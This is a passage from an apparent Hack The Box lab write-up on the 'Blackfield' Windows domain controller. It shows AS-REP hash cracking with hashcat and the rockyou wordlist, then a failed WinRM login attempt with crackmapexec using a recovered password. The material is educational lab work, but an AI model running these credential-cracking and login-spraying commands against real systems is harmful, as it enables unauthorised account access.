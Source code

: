 ![](/assets/img/HTB/easy/Blackfield/kerbrute.png)
- let crack hash found by GetNPUsers

```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt
```

![](/assets/img/HTB/easy/Blackfield/hashasp.png)
- let check if i can login

```
crackmapexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```
- Output

```
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```
- but it fails to login
- let try with smb and check permission
